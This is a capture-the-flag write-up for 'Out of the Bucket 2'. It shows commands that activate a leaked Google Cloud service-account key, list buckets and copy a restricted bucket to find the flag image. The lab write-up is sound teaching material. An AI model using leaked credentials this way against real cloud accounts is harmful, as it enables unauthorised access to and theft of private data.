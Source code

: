 # misc/Out of the Bucket 2
`Points: 407`

### Description
```
This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!

Author: windex
```

## Solve

![funny.json](img/funny.png)

Before, we saw the `secret/funny.json`. Then, do like this!

```shell
~ % gcloud auth activate-service-account --key-file=funny.json
Activated service account credentials for: [image-server@out-of-the-bucket.iam.gserviceaccount.com]

~ % gcloud storage buckets list
---
creation_time: 2023-12-29T16:56:35+0000
default_storage_class: STANDARD
location: US
location_type: multi-region
metageneration: 2
name: flag-images
public_access_prevention: enforced
rpo: DEFAULT
storage_url: gs://flag-images/
uniform_bucket_level_access: true
update_time: 2023-12-29T17:04:30+0000
---
creation_time: 2023-12-29T15:47:39+0000
default_storage_class: STANDARD
location: US
location_type: multi-region
metageneration: 2
name: out-of-the-bucket
public_access_prevention: inherited
rpo: DEFAULT
storage_url: gs://out-of-the-bucket/
uniform_bucket_level_access: true
update_time: 2023-12-29T16:33:52+0000

~ % gsutil cp -r gs://flag-images .
Copying gs://flag-images/256x192/ad.png...
Copying gs://flag-images/256x192/ae.png...                      
Copying gs://flag-images/256x192/af.png... 
...
\ [255 files][  1.4 MiB/  1.4 MiB]    7.1 KiB/s 
Operation completed over 255 objects/1.4 MiB.
```

We'll find the picture that is different from the others.

![different flag](img/ffff.png)

Gotcha~~~